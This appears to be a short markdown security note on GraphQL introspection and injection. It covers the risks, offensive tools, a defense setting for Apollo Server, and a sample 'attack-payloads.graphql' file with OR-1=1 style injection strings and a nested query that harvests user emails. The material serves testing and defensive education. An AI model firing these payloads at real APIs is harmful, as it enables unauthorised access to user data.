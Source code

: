 # 🔍 GraphQL Introspection & Injection

## ☠️ Why It's Dangerous

If introspection is **enabled in production**, attackers can:
- Discover all available queries, mutations, and types
- Identify sensitive endpoints (`passwordReset`, `userEmail`, `adminPanel`)
- Begin crafting injection attacks using discovered input parameters

---

## 🧪 Common Attacks

### 1. Introspection Enabled
- Use tools like:
  - `GraphQL Voyager`
  - `Altair` or `Insomnia`
  - `Postman`
- Send: `introspection.query`

### 2. GraphQL Injection (example)
```graphql
query {
  user(id: "1' OR '1'='1") {
    name
    email
  }
}
```
### 🔐 Defense
Disable introspection in production:
// Example in Apollo Server
introspection: process.env.NODE_ENV !== 'production'
Apply strict input validation and schema rules

Enforce authentication on sensitive queries

### 📚 Tools
GraphQLmap
InQL
Postman + Burp Proxy
GraphQL Voyager (visual mapping)
---

### 🧪 Optional: Create a file for attack payloads

#### ✅ File: `attack-payloads.graphql`
```graphql
# Sample GraphQL attack queries (for offline testing)

# Bypass logic (classic OR 1=1 style)
query {
  user(id: "1' || '1'=='1") {
    name
    email
  }
}
```
### Field injection (if raw queries allowed)
query {
  __typename
}

# Nested type exploitation
query {
  user(id: "123") {
    posts {
      title
      comments {
        content
        author {
          email
        }
      }
    }
  }
}
